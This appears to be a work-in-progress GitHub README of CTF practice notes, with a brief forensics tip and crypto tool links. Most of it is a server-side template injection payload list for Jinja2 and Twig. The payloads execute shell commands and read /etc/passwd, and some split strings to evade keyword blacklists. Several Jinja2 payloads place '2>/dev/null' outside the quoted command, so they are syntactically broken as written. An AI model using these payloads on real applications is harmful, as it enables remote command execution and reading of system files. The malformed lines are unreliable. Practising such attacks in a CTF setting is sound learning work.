

# a1sberg-ctf-walkthrough
answering challenges in the practice website provided for the upcoming kyokugen ctf 2026



## guide idk [WIP]
<details>
<summary>
Forensics
</summary>

* **`dd files`:**
    ```bash
    fdisk -l FILENAME.dd
    ```


<details>
    <summary>
    soon.
    </summary>
</details>

</details>


<details>
<summary>
Crypto
</summary>

useful links for ciphers:
- cipher identifier - [https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier)
- most ciphers - [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
- MD5, specifically - [https://crackstation.net/](https://crackstation.net/)

<details>
    <summary>
    soon.
    </summary>
</details>

</details>

<details>
<summary>
Web
</summary>

<details>
    <summary>
    SSTI Injection
    </summary>

* **`force submit idk if this is useful`:**
    ```html
    <form><input type="text"></input><button type="submit"></button></form>
    ```

if `{{7*7}}` works, do these

1. Jinja2 (Python)
* **`ls`:**
    ```jinja2
    {{ lipsum.__globals__['o'+'s'].popen('l'+'s -la' 2>/dev/null).read() }}
    ```
* **`cat` / `read`:**
    *(If `cat` or `passwd` are blacklisted, break them up)*
    ```jinja2
    {{ lipsum.__globals__['o'+'s'].popen('c'+'at /etc/pa'+'sswd' 2>/dev/null).read() }}
    ```
* **`touch` / `echo`:**
    ```jinja2
    {{ lipsum.__globals__['o'+'s'].popen('ec'+'ho "payload" > /tmp/pwn.txt 2>/dev/null').read() }}
    ```
* **`cd` (Chained Command):**
    ```jinja2
    {{ lipsum.__globals__['o'+'s'].popen('c'+'d /var/www/html && l'+'s' 2>/dev/null).read() }}
    ```
* **look for a variable e.g `flag` :**
    ```jinja2
    {{ url_for.__globals__['FLAG'] }}
    ```
* **find specific file e.g starts with `fl` :**
    ```jinja2
    {{lipsum.__globals__['o'+'s'].popen('fi'+'nd / -name "fl*" 2>/dev/null').read()}}
    ```

2. Twig (PHP)
* **`ls`:**
    ```twig
    {{ ['ls -la']|filter('system') }}
    ```
* **`cat` / `read`:**
    ```twig
    {{ ['cat /etc/passwd']|filter('system') }}
    ```
* **Write File (`touch` / `echo`):**
    ```twig
    {{ ['touch /tmp/pwn.txt']|filter('system') }}
    ```

</details>

</details>
